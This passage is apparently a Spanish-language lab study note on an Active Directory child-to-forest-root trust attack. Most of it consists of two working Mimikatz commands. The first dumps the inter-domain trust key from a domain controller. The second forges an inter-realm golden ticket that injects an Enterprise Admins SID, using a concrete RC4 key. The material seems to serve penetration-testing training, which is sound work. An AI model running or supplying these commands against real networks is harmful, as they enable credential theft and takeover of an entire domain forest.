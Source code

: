 ![/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%203.png](/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%203.png)

Cross Domain Attacks – Child to Forest Root -Trust Key

- Entonces, lo que se requiere para falsificar tickets de confianza es, obviamente, la clave de confianza.
Busque la clave de confianza [In] del niño al padre.

    `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc`

- Forjemos una TGT inter-reino:

    `Invoke-Mimikatz -Command '"kerberos::golden 
    /domain:us.techcorp.local /sid:S-1-5-21-210670787-
    2521448726-163245708 /sids:S-1-5-21-2781415573-
    3701854478-2406986946-519 
    /rc4:b59ef5860ce0aa12429f4f61c8e51979 
    /user:Administrator /service:krbtgt
    /target:techcorp.local
    /ticket:C:\AD\Tools\trust_tkt.kirbi"'`
